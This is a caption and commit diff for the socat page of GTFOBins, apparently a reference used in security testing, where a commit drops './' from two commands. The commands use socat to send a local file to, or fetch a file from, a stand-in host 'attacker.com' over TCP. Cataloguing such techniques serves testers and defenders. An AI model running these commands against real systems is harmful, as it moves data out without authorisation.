

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide. Shown: the part 719-1190 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -29,12 +29,12 @@ functions:
         RHOST=attacker.com
         RPORT=12345
         LFILE=file_to_send
-        ./socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
+        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
   file-download:
     - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
       code: |
         RHOST=attacker.com
         RPORT=12345
         LFILE=file_to_save
-        ./socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
+        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
 ---
```
